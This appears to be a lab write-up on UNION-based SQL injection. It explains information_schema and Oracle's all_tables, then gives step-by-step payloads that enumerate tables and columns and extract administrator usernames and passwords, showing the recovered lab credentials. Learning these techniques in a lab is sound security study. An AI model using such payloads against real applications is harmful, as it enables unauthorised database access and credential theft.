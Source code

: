 ==> Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

-->You can query information_schema.tables to list the tables in the database:

SELECT * FROM information_schema.tables

This returns output like the following:

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
================================================
MyDatabase    dbo          Products   BASE TABLE
MyDatabase    dbo          Users      BASE TABLE
MyDatabase    dbo          Feedback   BASE TABLE
________________________________________________
```

This output indicates that there are three tables, called Products, Users, and Feedback.

You can then query information_schema.columns to list the columns in individual tables:

SELECT * FROM information_schema.columns WHERE table_name = 'Users'

This returns output like the following:

```sql

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase    dbo          Users      UserId      int
MyDatabase    dbo          Users      Username    varchar
MyDatabase    dbo          Users      Password    varchar
```

This output shows the columns in the specified table and the data type of each column. 

================================================================

## challenge

-> first check the number of tables using : `'+UNION+SELECT+"abc","def"-`-
-> after that check the table names using this payload : `'+UNION+SELECT+table_name, NULL+FROM+information_schema.tables--`
-> see the number of the columns using command : `'+UNION+SELECT+column_name, NULL+FROM+information_schema.columns+WHERE+table_name="users_zlvypg"--`

-> found 2 columns : 1)username_fuoiaa 2)password_jwsqrn
-> let's see the content of the tables : `'+UNION+SELECT+username_fuoiaa,password_jwsqrn+FROM+users_zlvypg--`

-> found the administrator password: 
```bash
administrator:ffgwc2jemb2hq113pi87
```

## Equivalent to information schema on Oracle

--> On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying all_tables:

SELECT * FROM all_tables

And you can list columns by querying all_tab_columns:

SELECT * FROM all_tab_columns WHERE table_name = 'USERS' 

## Challenge 

-> In oracle,there is a table called `dual` so we can use it for finding the number of columns 

-> first of all find the number of columns : `'+UNION+SELECT+'abc','def'+FROM+dual--`
-> we got response so Let's use this payload : `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`

-> found one table : `USERS_WYZASZ`
-> Let's read the data of that table : `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_WYZASZ'--`

-> got 2 tables : 1)PASSWORD_BIASBO 2)USERNAME_HMHMIU
-> Let's read the content of this 2 columns : `'+UNION+SELECT+PASSWORD_BIASBO,USERNAME_HMHMIU+FROM+USERS_WYZASZ--`

-> got the password of administrator : 
```bash
administrator:gjqdv2xrnw5kynwhizpo
```